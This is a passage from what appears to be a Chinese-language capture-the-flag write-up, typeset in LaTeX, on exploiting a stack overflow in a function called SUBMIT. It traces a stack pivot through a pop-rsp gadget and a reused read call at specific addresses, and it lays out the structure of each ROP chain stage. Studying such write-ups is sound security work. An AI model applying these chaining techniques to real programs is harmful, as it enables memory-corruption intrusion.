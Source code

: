 \documentclass[10pt,a4paper]{article}
\begin{document}
\texttt{SUBMIT} 溢位後的搬移過程（每一步的 \texttt{rsp}）：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
  SUBMIT 的 ret  → 0x401523 (pop rsp; pop r13; pop r14; pop r15; ret)
     pop rsp     讀 [S+0x50]  = 0x40a168     → rsp = 0x40a168
     pop r13     讀 [0x40a168] = 0           → rsp = 0x40a170
     pop r14     讀 [0x40a170] = 0           → rsp = 0x40a178
     pop r15     讀 [0x40a178] = 0           → rsp = 0x40a180
     ret         讀 [0x40a180] = 0x401f07    → rsp = 0x40a188
  0x401f07: read(0, 0x40a188, bl)             ← 之後的鏈都在這裡接
\end{Verbatim}

\paragraph{\texorpdfstring{6.3 每次 read 回來之後的 \texttt{rsp}
補償}{6.3 每次 read 回來之後的 rsp 補償}}\label{ux6bcfux6b21-read-ux56deux4f86ux4e4bux5f8cux7684-rsp-ux88dcux511f}

\texttt{0x401f07} 是 \texttt{SUBMIT} 函式的\textbf{中間}，所以
\texttt{read} 回來之後 會繼續跑 \texttt{SUBMIT} 剩下的：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
401f14:  test rax,rax
401f17:  jle  401f2f
401f19..401f2a: write(1, "OK\n", 3)
401f2f:  add  rsp,0x40        ; ← rsp += 0x40
401f33:  pop  rbx             ; ← rbx = [rsp]  ; rsp += 8
401f34:  ret                  ; ← rip = [rsp]
\end{Verbatim}

所以每一段鏈的佈局固定是：

\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
read 目標 + 0x00 ~ 0x3f : 隨便 (0x40 bytes)
read 目標 + 0x40        : rbx（我們通常放 0xff，讓下一次 read 讀 255 bytes）
read 目標 + 0x48        : 鏈的第 0 個 qword（ret 目標）
\end{Verbatim}

這也解釋了 \texttt{A2\ \allowbreak{}=\ \allowbreak{}A1\ \allowbreak{}+\ \allowbreak{}0x48\ \allowbreak{}+\ \allowbreak{}8*len(chain)} 這個公式。

每一段鏈（d1 / d2 / d3）的佈局都一樣，只是位址不同：
\end{document}
